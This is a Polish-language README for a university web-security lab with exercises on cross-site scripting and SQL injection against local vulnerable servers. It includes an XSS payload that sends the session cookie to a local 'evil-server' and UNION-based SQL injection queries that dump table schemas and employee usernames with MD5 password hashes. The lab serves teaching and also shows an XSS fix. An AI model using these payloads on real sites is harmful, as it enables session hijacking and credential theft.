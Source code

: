 # BAIiM_project
Command Injection, Code Injection i Cross-Site Scripting

## Wymagania
* Git (git clone)
* Node.js
* Python 3.10 (lub nowszy)
* Docker
* Docker-compose

## Wstęp
* Sklonuj repozytorium (git clone)
* Zainstaluj pakiety Node.js zdefiniowane w `package.json` z pomocą poniższej komendy:
```
npm install
```

## Zadanie 1

* Uruchom lokalny serwer WWW za pomocą Node.js:
```
node server.js
```

To spowoduje pojawienie się komunikatu: `Serwer nasłuchuje na porcie 3000`. 
W wyszukiwarce wpisz link `http://localhost:3000/`.
* Możesz wpisać dowolną rzecz w pole tekstowe, a następnie kliknąć `Szukaj`. Sprawdź jak zachowuje się to zapytanie i czy wygląda na podatne na atak.
* Przy użyciu klawisza F12 otwórz "Developer Tools" i wklej poniższy kod do konsoli:
```
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'BAIiM\')">');
```
* Następnie skopiuj wynik i wklej go do paska URL, tak aby wyglądał w następujący sposób: `http://localhost:3000/?val=<wynik>`

* W "Developer Tools" otwórz zakładkę "Application". A następnie "Storage" -> "Cookies", kliknij "localhost:3000", aby wyświetlić pliki cookies zapisane dla tej strony.

* Znajdujemy tam ciasteczko o nazwie "connect.sid". Spróbuj zyskać do niego dostęp poprzez wklejenie poniższego kodu do pola tekstowego - musisz najpierw powtórzyć krok z `encodeURIComponent` na poniższym kodzie (jako wynik powinniśmy zobaczyć zawartość w wyskakującym okienku):
 ```
<img src="does-not-exist" onerror="alert(document.cookie)">
```
* teraz uruchom kolejny serwer (w osobnym terminalu):
```
node evil-server.js
```

* teraz spróbujesz wykraść plik cookie. Wklej poniższy kod do pola tekstowego (tak jak poprzednio użyj `encodeURIComponent`)

```
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
* zobacz wynik w terminalu, w którym uruchomiony został `evil-server.js`
* zastanów się dlaczego to, co wykonałeś powyżej może być groźne

### Zabezpieczenie
* W pliku `public/index.html` znajdź funkcję "showQueryAndResults". Pobiera ona wartość zapytania `val` i wpisuje do `<div id="results"></div>`
* Możemy zmienić ją tak, aby `val` trakowane było jako tekst. W tym celu dodaj poniższy kod na końcu funkcji "showQueryAndResults".
```
var queryTextEl = document.querySelector('#results pre');
	queryTextEl.textContent = val;
```
* zastanów się, jaki ma to wpływ

## Zadanie 2
W tym zadaniu dokonasz podstawowego ataku SQL Injection, który pozwoli Ci na wykradnięcie wrażliwych danych kont utworzonych w serwisie internetowym. Do jego wykonania wymagane jest zainstalowanie języka Python oraz podstawowa wiedza o składni zapytań bazodanowych.

* W celu uruchomienia serwera przejdź do katalogu Zadanie-2
* Uruchom serwer atakowanej witryny internetowej poprzez wykonanie polecenia `python main.py`
* Przejdź do serwisu sklepu dostępnego pod adresem: http://localhost:5000
* (Opcjonalnie) zapoznaj się z zawartością tabeli dostępnych produktów - obraz "Produkty.png"

Poniżej znajduje się instrukcja dotycząca używania poleceń SQL dla ataków typu injection w bazie danych SQLite (screen tabeli dostępnych produktów znajduje się w folderze Zadanie-2):
* Sprawdź, czy atak injection może zadziałać, wpisując następujące polecenie (`sqlite_master` to domyślna tabela w bazie danych SQLite, która przechowuje informacje o każdej tabeli w bazie danych):
```
woda' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --
```
* Uzyskaj nazwy tabel z tabeli głównej (polecenie SQL zwraca informacje o tabeli):
```
woda' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --
```
`name` i `sql` to kolumny w tabeli `sqlite_master`. `name` zwraca nazwę tabeli, a `sql` zwraca informacje SQL dotyczące tabeli (np. kolumny).
* Uzyskaj informacje z dwóch kolumn i utwórz trzecią kolumnę:
```
woda' UNION SELECT username,password,3 from employees;--
 ```
* Zwróć uwagę, że w kolumnie `password` pojawia się ciąg znaków. Zastanów się co możesz z nim zrobić. (podpowiedź: md5).

Przeanalizuj powyższe polecenia i zastanów się skąd wynikają poszczególne ich elementy.

Dlaczego atak nie powiedzie się podając tylko złośliwe zapytanie SQL?

Możesz także spróbować swoich sił wykorzystując dostępne podatności:
* Strona wyszukiwania artykułów jest podatna na ataki SQL Injection
* Strona dodania artykułu jest podatna na ataki XSS
* Strona logowanie jest także podatna na ataki SQL Injection, co pozwala na ominięcie logowania

## Zadanie 3
Twoim ostatnim zadaniem jest samodzielne dokonanie serii ataków XSS. Wyzwanie składa się z 6 poziomów, w ramach których należy ominąć zaimplementowane zabezpieczenia.


W celu uruchomienia serwera wykonaj poniższe kroki:
* Zainstaluj program [docker](https://docs.docker.com/get-docker/) oraz [docker-compose](https://docs.docker.com/compose/install/).
* Przejdź do katalogu Zadanie-3 (folder zawierający plik docker-compose.yml)
* Wykonaj polecenie `sudo docker-compose up`
* Przejdź do wyzwań dostępnych pod adresem: http://localhost:9003


Jeśli podczas wykonywania polecenia `docker-compose up` napotkasz problemy upewnij się, że usługa docker'a została uruchomiona. W przeciwnym wypadku wykonaj polecenie `sudo systemctl start docker`.

Jeżeli problem nadal występuje, należy całkowicie zresetować pracę usługi poprzez polecenie `sudo systemctl restart docker`.


## Bibliografia
* "Bezpieczeństwo aplikacji webowych" - Michał Bentkowski, Gynvael Coldwind, Artur Czyż, Rafał Janicki, Jarosław Kamiński, Adrian Michalczyk, Mateusz Niezabitowski, Marcin Piosek, Michał Sajdak, Grzegorz Trawiński, Bohdan Widła
* https://crashtest-security.com/different-injection-attack-types/​
* https://learn.snyk.io/lessons/​
* https://www.imperva.com/learn/application-security/command-injection/​
* https://owasp.org/www-community/attacks/Command_Injection​
* https://crashtest-security.com/command-injection/​
* https://crashtest-security.com/code-injection/​
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html​
* https://www.acunetix.com/websitesecurity/cross-site-scripting/ 
* https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/
* https://github.com/inforkgodara/xss-vulnerability 
* https://github.com/neophyt3/sql-injection-exercises

  ### Dodatkowe
  #### Gry XSS i zadania:
  * http://sudo.co.il/xss/
  * https://xss-game.appspot.com/ 
  * https://alf.nu/alert1?world=alert&level=alert0 
  * http://prompt.ml/0 
  * https://xss-quiz.int21h.jp/
  * https://domgo.at/cxss/example

  #### Animacja o XSS wraz z wyjaśnieniem
  * https://www.hacksplaining.com/exercises/xss-stored (animacja)
  * https://www.hacksplaining.com/prevention/xss-stored (wyjaśnienie)
